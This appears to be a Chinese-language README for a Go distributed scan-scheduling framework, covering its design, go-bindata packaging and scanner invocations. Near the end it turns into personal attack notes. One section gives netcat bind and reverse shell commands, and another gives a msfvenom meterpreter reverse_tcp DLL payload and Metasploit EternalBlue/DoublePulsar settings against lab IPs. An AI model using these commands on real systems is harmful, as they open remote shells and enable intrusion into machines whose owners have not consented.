 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## udp  通讯
nc -lvvp 6666 -u -e  /bin/sh
nc -u 192.168.56.132 6666 

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  



# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653




# doub
启动SSH服务
命令为：
/etc/init.d/ssh start

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.133 lport=4444 -f dll -o ~/eternal11.dll


set payload payload/windows/meterpreter/reverse_tcp

set winepath /home/kali/           ----- - Writing DLL in /home/kali/eternal11.dll


  set DOUBLEPULSARPATH  /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

  set ETERNALBLUEPATH /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps
